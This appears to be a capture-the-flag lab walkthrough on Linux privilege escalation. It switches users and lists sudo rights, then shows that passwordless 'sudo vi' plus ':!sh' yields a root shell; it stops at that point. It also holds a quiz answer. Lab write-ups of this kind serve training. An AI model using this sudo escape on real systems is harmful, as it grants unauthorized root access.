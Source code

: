 https://gtfobins.github.io/

## #7.1 - First, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user8, with the password "password"

~~~
root@polobox:~# logout
user7@polobox:~$ su - user8
Password: 
Welcome to Linux Lite 4.4 user8
 
Thursday 14 May 2020, 17:00:17
Memory Usage: 321/983MB (32.66%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
 
user8@polobox:~$ whoami
user8
~~~

## #7.2 - Let's use the "sudo -l" command, what does this user require (or not require) to run vi as root?

*Hint: No password!*

Let's list our privileges:

~~~
user8@polobox:~$ sudo -l
Matching Defaults entries for user8 on polobox:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user8 may run the following commands on polobox:
    (root) NOPASSWD: /usr/bin/vi
~~~

We can run vi with sudo without password.

Answer: `NOPASSWD`

## #7.3 - So, all we need to do is open vi as root, by typing "sudo vi" into the terminal.

Let's open `vi` with sudo:

~~~
user8@polobox:~$ sudo vi
~~~

## #7.4 - Now, type ":!sh" to open a shell!

Entering `:!sh` and pressing `ENTER` allows to execute commands inside vim. We are now `root`:
